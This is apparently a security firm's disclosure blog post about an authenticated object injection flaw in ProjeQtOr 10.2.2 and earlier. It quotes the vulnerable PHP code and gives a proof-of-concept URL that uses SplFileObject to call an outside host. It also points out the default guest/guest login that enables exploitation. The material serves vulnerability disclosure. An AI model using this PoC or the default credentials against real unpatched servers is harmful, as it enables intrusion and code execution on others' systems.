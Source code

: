 ```yaml
---
type: article
title: Direct Object Injection Vulnerability
tags: [ProjeQtOr]
date: 2023-03-19
author: Eno Leriand
featuredImage: https://i.ytimg.com/vi/IIKxrs-Hj1w/maxresdefault.jpg
---
```


As part of our Continuous Automated Red Teaming and Attack Surface Management capabilities within the **tea party**, we conduct zero-day vulnerability research on technologies commonly seen across the attack surfaces of organizations using this platform. This approach enables proactive defense, giving clients forward visibility into vulnerabilities while we coordinate with vendors to release appropriate fixes.

## Vulnerability Overview: ProjeQtOr

Today, we will discuss a vulnerability identified in **ProjeQtOr**.

> "ProjeQtOr is an open-source project management software grouping in a single tool all the features needed to organize your projects. It is simple, easy to use while covering a maximum of project management features."

The PartyLabs team discovered an authenticated *Direct Object Injection* vulnerability in ProjeQtOr while auditing anomalous technology across our client base. This vulnerability affects ProjeQtOr version 10.2.2 and earlier.

To briefly recap, a *Direct Object Injection* vulnerability occurs when unvalidated user input is utilized to construct objects directly within application code.

In the PHP context, this type of vulnerability is critical because it enables attackers to execute arbitrary PHP code within the context of the affected application. In practical terms, this vulnerability could permit an attacker to gain full control over the affected host and the sensitive data it holds.

Fortunately, the ProjeQtOr team has issued a patch addressing this vulnerability on March 9th, 2023. While this update addresses a serious security issue, the vendor has not designated it as a security-specific release.

## Technical Analysis of the Vulnerability

Although *Direct Object Injection* vulnerabilities are somewhat uncommon, they are relatively straightforward to comprehend. Moreover, these vulnerabilities are often trivial to remediate.

The vulnerability in question is present within the file `tool/getExtraRequiredFields.php`, allowing a malicious user to execute arbitrary PHP code through a crafted HTTP request, exploiting unvalidated input and causing a direct object injection.

Below is the relevant code in `getExtraRequiredFields.php` that we identified as vulnerable:

```php
require_once "../tool/projeqtor.php";

$objectClass=null;
if (isset($_REQUEST['objectClassName'])) {
  $objectClass=$_REQUEST['objectClassName'];
}
$objectId=null;
if (isset($_REQUEST['id'])) {
  $objectId=$_REQUEST['id'];
} else if (isset($_REQUEST['id_detail'])) {
  $objectId=$_REQUEST['id_detail'];
}
if ($objectClass===null or $objectId===null) {
  throwError('className and/or id not found in REQUEST ('.$objectClass.'/'.$objectId.')');
}

$obj=new $objectClass($objectId);
```

### Code Breakdown

Let’s walk through the core logic here:

1. **Setting `objectClass`**: The code first checks if the HTTP request includes the `objectClassName` parameter. If found, the parameter’s value is assigned to the `$objectClass` variable.

2. **Checking `id` or `id_detail` Parameters**: Next, it checks for two separate parameters in the HTTP request, `id` and `id_detail`. If either parameter is set, its value is assigned to the `$objectId` variable.

3. **Validation of `objectClass` and `objectId`**: The code then verifies that both `$objectClass` and `$objectId` have been populated. If either is null, it triggers an error message via the `throwError` function.

4. **Object Instantiation**: Finally, the code creates a new object of the class defined by `$objectClass`, passing `$objectId` as a parameter.

Because `$objectClass` and `$objectId` are sourced directly from user input without validation, an attacker can construct an HTTP request that assigns arbitrary values to these parameters, effectively instantiating arbitrary classes with controlled arguments.

### Proof of Concept (PoC)

The following URL provides a PoC that demonstrates exploitability of this vulnerability:

```plaintext
https://hostname/tool/getExtraRequiredFields.php?objectClassName=SplFileObject&id_detail=http://SplFileObject.partylabs.com
```

In this PoC, we use PHP’s built-in `SplFileObject` class, which supports instantiation with local or remote URLs. By invoking this class, we can confirm the vulnerability and demonstrate the feasibility of exploitation by interacting with an externally controlled host.

It’s important to note that, while this vulnerability cannot be exploited by an unauthenticated user, ProjeQtOr includes a default “guest” account with `guest/guest` credentials, which enables exploitation of this vulnerability.

## Conclusion

This article has provided an insight into a typical vulnerability we encounter in our client audits. In this case, our audit identified a single vulnerability reported to the vendor, and a CVE is currently pending.

While this vulnerability is relatively easy to spot, it has a high impact considering the sensitive data ProjeQtOr manages, and, of course, the ease of code execution on a publicly exposed system should not be underestimated.

However, the ProjeQtOr team’s swift response in remediating the issue is commendable.

At partylabs, we are firm believers in continuous security testing as the future of cybersecurity, allowing for the rapid identification of high-impact vulnerabilities that can affect an organization holistically.

If you would like to learn more about the partylabs Platform, our Continuous Automated Red Teaming, and Attack Surface Management solutions, please don’t hesitate to reach out.

